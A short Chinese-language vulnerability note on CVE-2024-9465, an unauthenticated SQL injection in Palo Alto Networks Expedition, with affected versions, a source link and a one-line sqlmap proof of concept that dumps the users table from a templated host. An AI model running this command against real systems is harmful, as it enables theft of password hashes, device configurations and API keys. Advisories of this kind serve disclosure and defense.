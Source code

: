 # CVE-2024-9465
>   Palo Alto Networks Expedition是Palo Alto Networks提供的一款迁移工具，旨在帮助网络安全团队进行防火墙规则的迁移、优化和管理。

## 来源

[https://www.horizon3.ai/attack-research/palo-alto-expedition-from-n-day-to-full-compromise](https://www.horizon3.ai/attack-research/palo-alto-expedition-from-n-day-to-full-compromise)

## 简介

Palo Alto Networks Expedition的/bin/configurations/parsers/Checkpoint/CHECKPOINT.php接口存在SQL注入漏洞，未经身份验证的攻击者可利用该漏洞获取Expedition 数据库内容，例如密码哈希、用户名、设备配置和设备API密钥等，并可在Expedition系统上创建和读取任意文件。

## 影响范围

-   Palo Alto Networks Expedition < 1.2.96

## 漏洞类型

SQL注入

## POC

```shell
python sqlmap.py -u "https://{{hostname}}/bin/configurations/parsers/Checkpoint/CHECKPOINT.php?action=im port&type=test&project=pandbRBAC&signatureid=1" -p signatureid -T users --dump
```

